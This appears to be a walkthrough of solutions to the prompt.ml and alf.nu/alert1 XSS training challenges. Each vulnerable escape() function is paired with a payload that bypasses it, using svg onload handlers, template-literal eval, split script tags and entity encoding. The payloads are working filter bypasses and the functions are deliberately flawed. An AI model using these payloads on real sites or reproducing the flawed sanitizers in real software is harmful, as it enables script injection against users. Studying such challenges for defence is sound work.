 # prompt.ml

### 1. Warmup

- Task
 
```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```js
"><svg onload=prompt(1)> <!--
```

### 2. Tag stripping

- Task

```js
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```js
<svg onload=prompt(1) // 
```

### 3. Parenthesis-less

- Task

```js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```html
<script>eval.call`${'prompt\x281\x29'}`</script>
```

### 7. Splits

Task

```js
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

Solution

```html
"><script>/*#*/prompt/*#*/(1)/*#*/</script>
```

- HTML Source

```html
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script>"></p>
```

# alf.nu/alert1

### 1. Warmup

- Task

```js
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

-Solution

```js
",alert(1),"
```

### 2. Adobe

- Task

```js
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```js
\");alert(1)//
```

### JSON

- Task

```js
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

-Solution

```js
</script><script>alert(1)//
```

### Markdown

- Task

```js
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```js
[[x|http://onerror=javascript:alert(1)//]]
```

### Skandia

- Task

```js
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```js
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

### JSON2

- Task

```js
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```js
</scrip</scriptt><script>alert(1)//
```
